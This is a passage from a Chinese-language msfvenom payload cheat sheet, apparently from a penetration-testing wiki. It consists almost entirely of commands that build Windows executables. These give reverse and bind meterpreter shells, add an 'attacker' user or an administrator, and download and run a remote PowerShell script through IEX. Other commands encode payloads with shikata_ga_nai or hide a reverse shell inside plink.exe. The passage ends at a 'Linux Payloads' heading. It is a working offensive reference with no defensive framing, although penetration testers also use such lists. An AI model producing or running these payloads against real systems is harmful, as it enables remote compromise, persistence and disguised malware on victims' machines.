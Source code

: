 ### **反向Shell**

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
### 绑定 Shell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
### 创建用户

{% code overflow="wrap" %}
```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
### CMD Shell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### **执行命令**

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### 编码器

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
{% endcode %}

### 嵌入可执行文件中

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```
{% endcode %}

## Linux Payloads
